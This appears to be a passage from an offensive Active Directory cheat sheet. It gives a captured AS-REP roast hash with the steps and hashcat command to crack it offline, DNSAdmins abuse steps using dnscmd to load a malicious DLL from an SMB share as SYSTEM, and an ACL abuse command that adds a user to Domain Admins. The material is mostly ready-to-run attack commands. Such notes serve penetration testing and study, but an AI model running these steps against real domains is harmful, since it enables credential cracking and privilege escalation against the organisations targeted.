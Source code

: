 ```
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```
Insert `23` after ther `$krb5asrep$`:
```
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```
crack it using hashcat:
```
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```
### DNSAdmins abuse
If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.
1.  Enumerate the members of the DNSAdmins group:
    * PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
    * AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2.  Once we found a member of this group we need to compromise it (There are many ways).
3.  Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:
```
#Using dnscmd:
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll

#Restart the DNS Service:
sc \\DNSServer stop dns
sc \\DNSServer start dns
```
### ACLs
#### GenericAll
On group:
```
net group "domain admins" username /add /domain
```
If you have GenericAll, GenericWrite or Write privilege on a Computer object, you can pull [Kerberos Resource-based Constrained Delegation: Computer Object Take Over](/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution) off.
